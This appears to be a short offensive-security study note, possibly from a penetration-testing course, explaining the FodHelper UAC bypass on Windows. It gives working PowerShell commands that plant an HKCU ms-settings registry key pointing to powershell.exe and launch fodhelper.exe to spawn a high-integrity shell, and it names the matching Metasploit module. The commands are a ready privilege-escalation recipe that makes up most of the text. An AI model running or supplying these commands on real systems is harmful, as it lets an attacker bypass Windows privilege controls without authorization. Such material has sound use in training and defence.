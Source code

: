 # FodHelper UAC Bypass

The FodHelper binary runs as high integrity, it is vulnerable to exploitation due to the way it interacts with the Windows Registry. 

It interacts with the current user's registry, which we are allowed to modify.

As reported in the original blog post, FodHelper tries to locate the following registry key, which does not exist by default in Windows 10.

```Reg
HKCU:\Software\Classes\ms-settings\shell\open\command
```

If we create the registry key and add the DelegateExecute value, Fodhelper will search for the default value (Default) and use the content of the value to create a new process. If our exploit creates the registry path and sets the (Default) value to an executable (like powershell.exe), it will be spawned as a high integrity process when Fodhelper is started.

```PowerShell

PS C:\Users\Offsec> New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe –Force

PS C:\Users\Offsec> New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force

PS C:\Users\Offsec> C:\Windows\System32\fodhelper.exe

```

We can do this with metasploit by using the exploit : ```exploit/windows/local/bypassuac_fodhelper```